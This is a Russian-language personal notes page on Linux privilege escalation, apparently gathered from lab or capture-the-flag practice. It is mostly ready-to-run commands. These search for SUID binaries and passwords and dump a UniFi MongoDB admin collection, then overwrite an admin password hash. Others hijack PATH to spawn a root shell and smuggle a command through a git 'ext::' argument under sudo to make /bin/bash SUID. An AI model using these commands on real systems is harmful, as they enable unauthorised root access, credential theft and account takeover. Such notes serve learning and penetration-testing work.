 ### \[lin/win]PEAS и аналоги
[[Кибербезопасность/Сканирование сети/Сканирование уязвимостей/Инструментарий]]
# Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```bash
	find / -user root -perm /4000 2> /dev/null
	``` 
	```bash
	find / -type f -perm -u=s 2> /dev/null
	```
	```bash
	find / -perm -40 2> /dev/null
	```
	```bash
	find / -perm -u=s -type f 2>/dev/null
	```
	
3. Происматривать файлы в поисках пароля и других закладок: 
	``` bash
	cat * | grep -i passw*
	```
	```bash
	sudo find / -user root -perm -4000 -exec ls -ldb {} \\; 2> /dev/null 
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```bash
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```bash
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```bash
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то **bash** команду. 

Дальше нужно создать файл этой bash команды с содержимым:
``` bash
/bin/sh
```
и добавить её в начало переменной **PATH**:
```bash
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

похожий пример:
![[Pasted image 20240625220640.png]]
```bash
echo '#!/bin/bash' > /tmp/exploit.sh 
echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```
```bash
ls -l /bin/bash
/bin/bash -p
```

Дополнительный материал по разведке в системе: [[Администрирование Linux#Информация о системе]]
# Windows

См. раздел "сетевые атаки"

